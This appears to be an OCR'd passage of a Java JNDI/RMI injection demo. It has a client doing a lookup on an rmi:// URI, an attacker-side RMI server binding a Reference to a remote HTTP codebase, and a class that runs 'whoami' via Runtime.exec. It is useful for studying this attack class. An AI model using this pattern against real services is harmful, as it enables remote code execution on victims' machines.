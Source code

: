 	package jndi;
	import javax.naming.Context;
	import javax.naming.InitialContext;

	public class CLIENT {

	    public static void main(String[] args) throws Exception {

		String uri = "rmi://127.0.0.1:1099/aa";
		Context ctx = new InitialContext();
		ctx.lookup(uri);

	    }

	}

SERVER.java(攻击者部署)

	package jndi;

	import com.sun.jndi.rmi.registry.ReferenceWrapper;
	import javax.naming.Reference;
	import java.rmi.registry.Registry;
	import java.rmi.registry.LocateRegistry;

	public class SERVER {

	    public static void main(String args[]) throws Exception {

		Registry registry = LocateRegistry.createRegistry(1099);
		Reference aa = new Reference("ExecTest", "ExecTest", "http://127.0.0.1:8081/");
		ReferenceWrapper refObjWrapper = new ReferenceWrapper(aa);
		System.out.println("Binding 'refObjWrapper' to 'rmi://127.0.0.1:1099/aa'");
		registry.bind("aa", refObjWrapper);

	    }

	}

ExecTest.java(攻击者部署)

	import java.io.BufferedReader;
	import java.io.IOException;
	import java.io.InputStream;
	import java.io.InputStreamReader;
	import java.io.Reader;
	import javax.print.attribute.standard.PrinterMessageFromOperator;
	public class ExecTest {
	    public ExecTest() throws IOException,InterruptedException{
		String cmd="whoami";
		final Process process = Runtime.getRuntime().exec(cmd);
		printMessage(process.getInputStream());;
		printMessage(process.getErrorStream());
		int value=process.waitFor();
		System.out.println(value);
	    }

	    private static void printMessage(final InputStream input) {
		// TODO Auto-generated method stub
		new Thread (new Runnable() {
		    @Override
		    public void run() {
		        // TODO Auto-generated method stub
		        Reader reader =new InputStreamReader(input);
		        BufferedReader bf = new BufferedReader(reader);
		        String line = null;
		        try {
		            while ((line=bf.readLine())!=null)
		            {
		                System.out.println(line);
		            }